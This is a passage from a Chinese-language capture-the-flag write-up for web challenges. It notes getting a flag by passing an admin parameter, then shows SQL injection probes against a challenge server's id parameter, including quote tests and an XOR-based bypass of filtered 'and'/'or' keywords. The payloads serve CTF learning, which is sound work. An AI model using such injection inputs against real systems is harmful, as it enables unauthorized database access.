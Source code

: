 提示不是管理员，下面代码提示传参，于是  ?x=admin 登录即可获取flag。

## 2、多次

[http://123.206.87.240:9004](http://123.206.87.240:9004/)

!

当

```
http://123.206.87.240:9004/1ndex.php?id=5 
```

提示sql注入

![1555516544488](1555516544488.png)然后就尝试出入，

```
http://123.206.87.240:9004/1ndex.php?id=1' #
http://123.206.87.240:9004/1ndex.php?id=1' and 1=1 %23//报错
http://123.206.87.240:9004/1ndex.php?id=1' or 1=1 %23//报错
http://123.206.87.240:9004/1ndex.php?id=1'^ (1=2) %23 //显示正常
```

  过滤了and 和 or，考虑可能存在其他过滤，尝试异或(相同为假，不同为真)注入 `^` 

fuzz 之后，发现这些都被过滤了。

![1555668270439](1555668270439.png)
